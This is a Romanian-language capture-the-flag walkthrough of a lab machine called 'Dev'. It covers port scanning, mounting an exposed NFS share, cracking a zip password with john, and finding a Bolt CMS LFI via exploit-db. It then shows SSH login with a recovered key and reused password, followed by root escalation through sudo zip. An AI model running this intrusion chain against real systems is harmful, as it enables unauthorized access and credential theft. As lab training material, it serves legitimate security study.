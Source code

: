 # Dev - walkthrough
Să începem cu scanarea porturilor deschise pentru o reprezentare mai clara pentru mașina data:
```
nmap -sS -A -T4 --min-rate 1500 -p- 192.168.64.138
```
```
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:96:ec:08:2f:b1:ea:06:ca:fc:46:8a:7e:8a:e3:55 (RSA)
|   256 56:32:3b:9f:48:2d:e0:7e:1b:df:20:f8:03:60:56:5e (ECDSA)
|_  256 95:dd:20:ee:6f:01:b6:e1:43:2e:3c:f4:38:03:5b:36 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Bolt - Installation error
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      42805/tcp   mountd
|   100005  1,2,3      48144/udp6  mountd
|   100005  1,2,3      53181/udp   mountd
|   100005  1,2,3      56255/tcp6  mountd
|   100021  1,3,4      34389/tcp   nlockmgr
|   100021  1,3,4      35047/tcp6  nlockmgr
|   100021  1,3,4      36698/udp   nlockmgr
|   100021  1,3,4      45998/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
8080/tcp  open  http     Apache httpd 2.4.38 ((Debian))
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: PHP 7.3.27-1~deb10u1 - phpinfo()
|_http-server-header: Apache/2.4.38 (Debian)
34389/tcp open  nlockmgr 1-4 (RPC #100021)
35407/tcp open  mountd   1-3 (RPC #100005)
42805/tcp open  mountd   1-3 (RPC #100005)
45233/tcp open  mountd   1-3 (RPC #100005)
```
### Serviciul nfs
Observăm ca avem acest serviciul activm să verificam ce directoarea sunt disponibile pentru montare:
```
showmount -e 192.168.64.138
```
```
Export list for 192.168.64.138:
/srv/nfs 172.16.0.0/12,10.0.0.0/8,192.168.0.0/16
```
Montăm acest directoriul la noi:
```
mount -t nfs 192.168.64.138:/srv/nfs /tmp/nfs_share_dir
```
Avem un fișier care are denumirea de `save.zip` în cazul în care încercăm săl dezarhivăm ne cere parola:
Putem so spargem cu utilita `zip2john` care ne trasformat fișierul în hash și pe urma cu atacul de metotă bruta încearcă săl spargă:
```
zip2john save.zip > save.zip.hash
```
Atacul de tip brute force:
```
john save.zip.hash
```
```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
java101          (save.zip)
```
În urmare avem 2 fișiere noi `id_rsa` și `todo.txt` conținutul la `todo.txt` este mai jos:
```
- Figure out how to install the main website properly, the config file seems correct...
- Update development website
- Keep coding in Java because it's awesome
jp
```
Aici avem și fișierul `id_rsa` pentru connectarea la distănță fără a știe parola:
### Serviciul HTTP
Să verificăm ce directoare sunt ascunse pe paginele noastre web primul este portul 8080:
```
[19:32:06] Starting:                                                                                                                                                       
[19:32:08] 403 -  281B  - /.htaccess.bak1                                   
[19:32:08] 403 -  281B  - /.htaccess.orig                                   
[19:32:08] 403 -  281B  - /.ht_wsr.txt
[19:32:08] 403 -  281B  - /.htaccess.save                                   
[19:32:08] 403 -  281B  - /.htaccess_extra
[19:32:08] 403 -  281B  - /.htaccess_orig
[19:32:08] 403 -  281B  - /.htaccess_sc                                     
[19:32:08] 403 -  281B  - /.htaccessOLD2                                    
[19:32:08] 403 -  281B  - /.htm                                             
[19:32:08] 403 -  281B  - /.htaccessOLD
[19:32:08] 403 -  281B  - /.htpasswds                                       
[19:32:08] 403 -  281B  - /.htaccess.sample
[19:32:08] 403 -  281B  - /.htaccessBAK
[19:32:08] 403 -  281B  - /.htpasswd_test                                   
[19:32:08] 403 -  281B  - /.httr-oauth                                      
[19:32:08] 403 -  281B  - /.html                                            
[19:32:08] 403 -  281B  - /.php                                             
[19:32:17] 301 -  321B  - /dev  ->  http://192.168.64.138:8080/dev/         
[19:32:18] 200 -    2KB - /dev/                                             
[19:32:32] 403 -  281B  - /server-status                                    
[19:32:32] 403 -  281B  - /server-status/  
```
Directoriul care ascuns este `/dev` să verificăm ce ascunde acesta:
```
[19:34:26] 301 -  328B  - /dev/config  ->  http://192.168.64.138:8080/dev/config/
[19:34:26] 200 -  411B  - /dev/config/                                      
[19:34:28] 200 -    1KB - /dev/favicon.ico                                  
[19:34:28] 301 -  327B  - /dev/files  ->  http://192.168.64.138:8080/dev/files/
[19:34:28] 200 -  411B  - /dev/files/                                       
[19:34:28] 301 -  327B  - /dev/forms  ->  http://192.168.64.138:8080/dev/forms/
[19:34:32] 301 -  327B  - /dev/pages  ->  http://192.168.64.138:8080/dev/pages/
[19:34:32] 200 -  530B  - /dev/pages/ 
```
Un directoriul care captează interesul este `/pages/` unde sunt salvate credințialile pentru `admin` acum trebuie să ne logăm ca acest user:

![alt text](image/Dev_admin_password.png)

De fapt aici este o vulnerabilitate de tip LFI care ne permite să citim fișierile care sunt pe mașina. Acest lucru ne permite să vedem ce utilizatori sunt înregistrați. Instrucțiunea este mai jos:
https://www.exploit-db.com/exploits/48411

![alt text](image/Dev_get_correct_user.png)

Utilizatorul care este înteresant poate fii `jeanpaul` să verificăm daca putem să ne logom cum cheile private:
```
ssh -i id_rsa jeanpaul@192.168.64.138
Enter passphrase for key 'id_rsa': 
jeanpaul@192.168.64.138's password: 
```
Avem nevoie de password pentru a ne loga dar în ajutor vine același `ssh2john` care transformă cheile private în hash(de fapt acest lucru este de presos):
```
ssh2john id_rsa > id_rsa.hash
```
```
john id_rsa.hash
```
Nici un rezultat dar ne aducem aminte de credințialele care au mai fost utilizate anterior și încercăm `I_love_java` și avem succes, acces pe mașină:
![alt text](image/Dev_get_user.png)

Cu comanda `sudo -l` vedem că avem aces să rulăm comanda `zip` cu privilegi de root în ajutor vine `gtfobins` cu instrucțiunea de mai jos:
https://gtfobins.github.io/gtfobins/zip/#sudo

![alt text](image.png)

Am primit root :)